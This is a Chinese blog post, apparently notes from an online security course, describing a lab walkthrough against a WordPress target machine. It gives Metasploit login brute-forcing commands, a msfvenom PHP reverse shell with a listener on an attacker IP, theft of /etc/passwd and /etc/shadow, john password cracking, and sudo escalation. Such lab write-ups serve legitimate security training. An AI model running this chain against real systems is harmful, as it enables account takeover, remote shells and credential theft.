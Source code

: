 ```yaml
---
title: 【网络安全0x0b】暴力破解
date: 2020-06-16 23:53:08
tags: [网络安全, wpscan, metasploit, john]
---
```


51CTO的网课，本篇利用nmap搜索开放端口，nikto、dirb挖掘敏感目录找到后台登录界面，使用wpscan探测用户名、metasploit暴力破解密码，登录wordpress后台上传执行php反弹shell，获得低权shell，最后利用john对靶机passwd和shadow文件进行暴力破解，获得高权用户密码，提权root获得flag。

本篇使用工具wpscan，metasploit，john。

<!-- more -->

# 使用命令

## wpscan

``` bash
wpscan --url 靶机web地址 --enumerate u
```

## metasploit

``` bash
msfconsole
#暴力破解
>use auxiliary/scanner/http/wordpress_login_enum
>set rhosts 靶机IP
>set targeturl 靶机web地址
>set pass_file 密码文件
>set username 用户名
>run

#监听端口
>use exploit/multi/handler
>set payload php/meterpreter/reverse_tcp
>set lhost 攻击机IP
>set lport 攻击机port
>run
```

## john

``` bash
unshadow /etc/passwd /etc/shadow > cracked
john cracked
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，一个web服务，`dirb`挖掘`80`端口web信息，找到一个wordpress的登录界面：

``` bash
nmap -sV 192.168.2.125
dirb http://192.168.2.125/
```

![](./1062/1.PNG)

2. 使用wpscan扫描这个wordpress的用户名（常规操作一般是先访问登录页面，尝试弱口令**admin**登录）：

``` bash
wpscan --url http://192.168.2.125/secret/ --enumerate u
```

![](./1062/2.PNG)

3. 扫出来了**admin**用户：

![](./1062/3.PNG)

4. 使用metasploit暴力破解admin用户密码，查看需要设置字段：

![](./1062/4.PNG)

5. 设置参数，执行：

``` bash
msfconsole
#暴力破解
>use auxiliary/scanner/http/wordpress_login_enum
>set rhosts 192.168.2.125
>set targeturl /secret/
>set pass_file /usr/share/wordlists/dirb/common.txt
>set username admin
>run
```

![](./1062/5.PNG)

6. 破解出密码**admin**：

![](./1062/6.PNG)

7. 登录后台修改404页面上传php反弹shell：

``` bash
msfvenom -p /php/meterpreter/reverse_tcp -f raw > shell.php
```

![](./1062/7.PNG)

8. metasploit里开启监听，获得shell：

``` bash
msfconsole
>use exploit/multi/handler
>set payload php/meterpreter/reverse_tcp
>set lhost 192.168.2.205
>set lport 4444
>run
```

**注意：7、8两步也可选择复制`/usr/share/webshells/php/php-reverse-shell.php`并修改其中靶机IP端口，配合攻击机nc监听端口实现反弹shell。**

![](./1062/8.PNG)

9. 使用metasploit把靶机的`/etc/passwd`和`/etc/shadow`文件荡下来：

![](./1062/9.PNG)

10. 上john破解，首先unshadow一下，之前已经破解过的加`--show`参数即可显示之前的破解结果：

``` bash
unshadow /etc/passwd /etc/shadow > cracked
john cracked
```

![](./1062/10.PNG)

11. ssh登录成功，依旧低权，`sudo -l`查看提权范围，`sudo bash`提权：

![](./1062/11.PNG)

# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)